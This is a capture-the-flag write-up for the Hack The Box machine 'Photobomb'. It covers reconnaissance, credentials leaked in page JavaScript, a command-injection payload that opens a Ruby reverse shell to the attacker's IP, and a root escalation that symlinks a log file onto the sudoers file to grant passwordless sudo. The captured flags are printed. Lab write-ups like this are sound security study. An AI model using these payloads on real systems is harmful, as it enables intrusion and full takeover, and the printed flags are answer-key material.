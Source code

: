## NMAP

The port scan shows only a web server and SSH access.

```
┌──(kali㉿kali)-[/media/sf_htb]
└─$ nmap -sT 10.129.35.175 -p 1-20000
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-20 14:33 EST
Nmap scan report for 10.129.35.175
Host is up (0.054s latency).
Not shown: 19998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 15.38 seconds
```

## GOBUSTER

No relevant sub-directory in the dir enumeration.

```
┌──(kali㉿kali)-[/media/sf_htb]
└─$ gobuster dir -u http://photobomb.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://photobomb.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2022/11/20 14:37:40 Starting gobuster in directory enumeration mode
===============================================================
/printer              (Status: 401) [Size: 188]
/printers             (Status: 401) [Size: 188]
/printerfriendly      (Status: 401) [Size: 188]
/printer_friendly     (Status: 401) [Size: 188]
/printer_icon         (Status: 401) [Size: 188]
/printer-icon         (Status: 401) [Size: 188]
/printer-friendly     (Status: 401) [Size: 188]
/printerFriendly      (Status: 401) [Size: 188]
/printersupplies      (Status: 401) [Size: 188]
/printer1             (Status: 401) [Size: 188]
/printer2             (Status: 401) [Size: 188]
/printericon          (Status: 401) [Size: 188]
/printer_2867         (Status: 401) [Size: 188]
/printer_securit      (Status: 401) [Size: 188]
/printer_drivers      (Status: 401) [Size: 188]
/printer_2            (Status: 401) [Size: 188]
/printer_list         (Status: 401) [Size: 188]
/printerdrivers       (Status: 401) [Size: 188]
/printer-ink          (Status: 401) [Size: 188]
Progress: 220468 / 220561 (99.96%)===============================================================
2022/11/20 14:54:37 Finished
===============================================================
                                                                 
```


The initial page has a basic web authentication.
The credentials are not known.

## Guess the password

In Firefox source code inspector there is a script in the page that is called:

view-source:http://photobomb.htb/photobomb.js

We can see that the credentials are available for those approaching using a tech support cookie. We can try the same credentials.

```javascript
function init() {
  // Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)) {
    document.getElementsByClassName('creds')[0].setAttribute('href','http://pH0t0:b0Mb!@photobomb.htb/printer');
  }
}
window.onload = init;
```

User: `pH0t0`
Pass: `b0Mb!`

And we are in!

## Hack the params

The next page sends a simple POST form with an image to be downloaded. Inspecting the POST request we can see that there are three parameters: `photo`, `filetype` and `dimension`.

By removing the parameters, we can see a very verbose error log. On top of it we have:

```ruby
post '/printer' do
  photo = params[:photo]
  filetype = params[:filetype]
  dimensions = params[:dimensions]

  # handle inputs
  if photo.match(/\.{2}|\//)
    halt 500, 'Invalid photo.'
  end

  if !FileTest.exist?( "source_images/" + photo )
    halt 500, 'Source photo does not exist.'
  end
```

Which gives a hint on the processing of the photo parameter. Any attempt of passing a directory traversal will fail, unfortunately, as the check is pretty clear: no double dots or slashes allowed. 

Removing the dimension will show that valid values are always in a format like  `number x number` so no possible modifications.

Removing the filetype shows that filetype must BEGIN with `jpg` or `png` but it is not protected against additional characters. So we can try to fuzz this parameter.

Using the Burpsuite attacker on filetype, we notice that appending invalid paths chars like %00 to filetype will cause another error that finally reveals what happens!

```ruby
  when 'jpg'
    content_type 'image/jpeg'
  end

  filename = photo.sub('.jpg', '') + '_' + dimensions + '.' + filetype
  response['Content-Disposition'] = "attachment; filename=#{filename}"

  if !File.exists?('resized_images/' + filename)
    command = 'convert source_images/' + photo + ' -resize ' + dimensions + ' resized_images/' + filename
    puts "Executing: #{command}"
    system(command)
  else
    puts "File already exists."
  end
```

this means that the software is vulnerable to a command injection on filetype because the command is not sanitized when the path is invalid. We can use this vulnerabilty to open a reverse shell!

## Reverse Shell

Open a listener locally first:

```shell
nc -lvnp 3333
```

Then this value for filetype will work to start a reverse shell:

```shell
png; ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.14.87",3333))'
```

INote: it might need to be URL-encoded.

## User Flag

Once the reverse shell is done, just do `cat ~/user.txt` to obtain the flag: `e26c23d7d1c1ad21e4bc52f7592a4cff`

## ROOT

First quick test: `sudo -l` reveals that the user is capable of doing some root operations. Let's investigate that to see if there is any vulnerability.

## Find the bug

The available operation with no password is a script named `/opt/cleanup.sh` that, in particular, does the following:

```shell
# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi
```

This means that the script executes as root copying the content of `photobomb.log` into a backup copy. This does not check if the copy is an existing symlink, so we can replace it with a symlink and write to any root-owned file on the system.

```shell
ln -s target_root_owned_file photobomb.log.old
```

So the easiest thing to do is to inserta another line in `/etc/sudoers.d/photobomb` to give sudo rights to our user `wizard` without the need of a password. 

```shell
cd ~/photobomb/log
cat /etc/sudoers.d/photobomb > photobomb.log
echo "wizard ALL=(ALL) NOPASSWD:ALL" >> photobomb.log
sudo /opt/cleanup.sh
```

The cleanup script will copy the content of ``photobomb.log`` into `photobomb.log.old` that is now an existing symlink to the sudoers file.

## Root Flag

After this operation the `sudo su` command is available for the user `wizard` with no password.
The root flag is available in the root home: `f585990edef3f32e78f6ad8a83e39d1c`